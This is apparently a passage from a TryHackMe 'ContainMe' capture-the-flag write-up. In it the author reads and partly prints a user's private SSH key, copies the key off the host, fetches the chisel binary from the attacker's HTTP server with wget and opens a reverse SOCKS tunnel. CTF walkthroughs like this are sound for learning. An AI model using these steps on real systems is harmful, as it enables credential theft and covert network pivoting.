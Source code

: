 Also, I found that user `mike` has a private SSH key!

```
root@host1:/usr/share/man/zh_TW# ls -lah /home/mike/.ssh
[...]
-rw------- 1 mike mike 1.7K Jul 15  2021 id_rsa
-rw-r--r-- 1 mike mike  392 Jul 15  2021 id_rsa.pub

root@host1:/usr/share/man/zh_TW# cat /home/mike/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAnWmOnLHQfBxrW0W0YuCiTuuGjCMUrISE4hdDMMuZruW6nj+z
YQCmjcL3T4j7v3/ddOBsTgxwi/+ZRZtRqJlvKEevPHJ8cR1DX7mmNyU3w/DRMnrW
djcIozYXVYdmj9v3e8xPbR6ybJX6fKpTuaDVdiwqQAecbvs5tBUkonAYUBuv1nhb
[...]
```

Maybe we can SSH into mike directly to the target machine?

**Let's copy and paste it to our attacker machine:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/ContainMe]
└─# nano mike_id_rsa
                                                                                                           
┌──(root🌸siunam)-[~/ctf/thm/ctf/ContainMe]
└─# chmod 600 mike_id_rsa
```

I tried to use the private key to directly connect to SSH port to the target machine, but no dice.

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/ContainMe]
└─# ssh -i mike_id_rsa mike@$RHOSTS                        
mike@10.10.253.177's password: 
                                                                             
┌──(root🌸siunam)-[~/ctf/thm/ctf/ContainMe]
└─# ssh -i mike_id_rsa mike@$RHOSTS -p 8022
mike@10.10.253.177's password: 

```

Hmm... Let's do a **dynamic port forwarding via `chisel`**!

- Transfer the `chisel` binary to the target machine:

```
┌──(root🌸siunam)-[/opt/chisel]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

root@host1:/usr/share/man/zh_TW# wget http://10.8.27.249/chiselx64 -O /tmp/chisel;chmod +x /tmp/chisel;cd /tmp
```

- Establish dynamic port forwarding:

```
┌──(root🌸siunam)-[/opt/chisel]
└─# ./chiselx64 server -p 8888 --reverse

root@host1:/tmp# ./chisel client 10.8.27.249:8888 R:socks
2022/10/07 08:13:15 client: Connecting to ws://10.8.27.249:8888
2022/10/07 08:13:16 client: Connected (Latency 240.613249ms)
```
